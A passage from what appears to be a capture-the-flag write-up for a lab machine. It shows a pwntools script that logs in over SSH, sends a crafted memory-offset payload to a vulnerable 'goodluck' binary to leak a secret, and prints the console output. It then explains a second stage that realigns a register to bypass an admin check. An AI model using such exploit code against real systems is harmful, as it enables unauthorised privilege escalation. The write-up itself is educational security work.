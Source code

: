     import re
    from pwn import *


    sshConn = ssh(host="10.10.10.27", user="xalvas", password="18547936..*")
    goodluck = sshConn.process("/home/xalvas/app/goodluck")
    fn = f"/tmp/{randoms(10)}"

    ## Stage 1 - Leak hey.secret
    log.info(f'Writing Stage 1 exploit to {fn}')
    sshConn.upload_data(b"A" * 8 + p32(0x80002FF8), fn)
    goodluck.sendline(fn)
    goodluck.recv(4096)
    goodluck.sendline("2")
    resp = goodluck.recv(4096).decode()
    secret = re.findall(r'debug info: (0x[0-9a-f]+)', resp)[0]
    log.success(f"Found secret: {secret}")



It works:



    root@kali# python3 rootpwn.py 
    [x] Connecting to 10.10.10.27 on port 22
    [+] Connecting to 10.10.10.27 on port 22: Done
    [*] xalvas@10.10.10.27:
        Distro    Ubuntu 16.04
        OS:       linux
        Arch:     i386
        Version:  4.4.0
        ASLR:     Disabled
        Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
    [x] Starting remote process '/home/xalvas/app/goodluck' on 10.10.10.27
    [+] Starting remote process '/home/xalvas/app/goodluck' on 10.10.10.27: pid 5001
    [+] Found secret: 0x1079d23



#### Stage 2 - Access Debug

Next I want to call option 3 with `hey` such that I can access the
`debug` function. I'll need to have two conditions:

-   `protect == hey.secret`
-   `hey.admin != 0`

I can use option 4 to shift EBX again, so I can realign where the
computer thinks `hey`. This time, I'll shift so that it tries to check
`hey.secret` it gets `hey.user` instead. I can control the first four
bytes of `hey.user`, and I leaked `hey.secret`, so I can set it to
match, passing the first test.
